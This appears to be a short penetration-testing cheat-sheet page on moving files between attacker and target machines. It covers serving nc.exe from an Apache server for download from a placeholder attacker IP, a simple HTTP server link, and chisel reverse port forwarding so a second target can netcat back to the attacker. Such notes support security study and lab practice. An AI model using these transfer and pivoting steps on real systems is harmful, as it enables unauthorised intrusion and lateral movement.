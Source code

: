 ## Apache

```
sudo systemctl start apache2
cp nc.exe /var/www/html
Download it from http://$KALI_IP/nc.exe
```

## Simple HTTP Server (Windows/Linux)

[https://github.com/TheWaWaR/simple-http-server](https://github.com/TheWaWaR/simple-http-server)

## Transfer files from Target 2 to Attacker (chisel)

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Actually chisel client can do reverse port forwarding too. Just need an additional parameter at the end like 0.0.0.0:443:127.0.0.1:9443 to map the target 1's 443/TCP to the attacker's 9443/TCP. To NC from target 2 to attacker, you will set up listener on attack on 9443 and you get target 2 to NC to Target 1 on 443.
